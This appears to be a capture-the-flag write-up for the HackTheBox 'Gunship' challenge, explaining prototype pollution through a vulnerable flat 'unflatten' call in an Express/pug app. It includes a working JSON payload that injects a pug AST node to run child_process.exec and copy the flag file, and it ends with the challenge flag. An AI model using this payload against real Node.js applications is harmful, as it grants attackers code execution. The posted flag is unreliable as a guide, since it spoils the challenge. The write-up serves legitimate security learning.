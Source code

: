 ```yaml
---
title: "HTB Challenge - Gunship"
date: "2024-11-11"
tags:
  - writeups
  - ctf
  - prototype pollution
  - js
toc: true
math: true
bold: 
nomenu: false
---
```


This is a prototype pollution challenge as I realized by having pinned packages such as `"flat": "5.0.0"`, we then can see the vulnerability related to it which is [this](https://security.snyk.io/vuln/SNYK-JS-FLAT-596927).

So the challenge starts with a simple submit input that takes an artist name and sends it to the backend.

```js
router.post('/api/submit', (req, res) => {
    const { artist } = unflatten(req.body);
	if (artist.name.includes('Haigh') || artist.name.includes('Westaway') || artist.name.includes('Gingell')) {
		return res.json({
			'response': pug.compile('span Hello #{user}, thank you for letting us know!')(
				{ user: 'guest' }
			)
		});
	} else {
		return res.json({
			'response': 'Please provide us with the full name of an existing member.'
		});
	}
});
```

Here we evaluate the `req.body` with the vulnerable `unflatten`, and we can pollute it. After a lot of trial and error I eventually realized that I need to use AST injection instead of this [vulnerability that I couldn't exploit](https://github.com/pugjs/pug/issues/3312). 

After reading [some more](https://rayepeng.medium.com/how-ast-injection-and-prototype-pollution-ignite-threats-abb165164a68) I've polluted the `block` with the following payload:

```json
{
    "artist.__proto__": {
        "name": "Haigh",
	    "block": {
			"type":"Text",
		    "line": "process.mainModule.require('child_process').exec('cp /app/flag* /app/static/images/f')"
	    }
	}
}
```

Then we can access the flag visiting `/static/images/f`

```
HTB{wh3n_lif3_g1v3s_y0u_p6_st4rT_p0llut1ng_w1th_styl3!!}
```
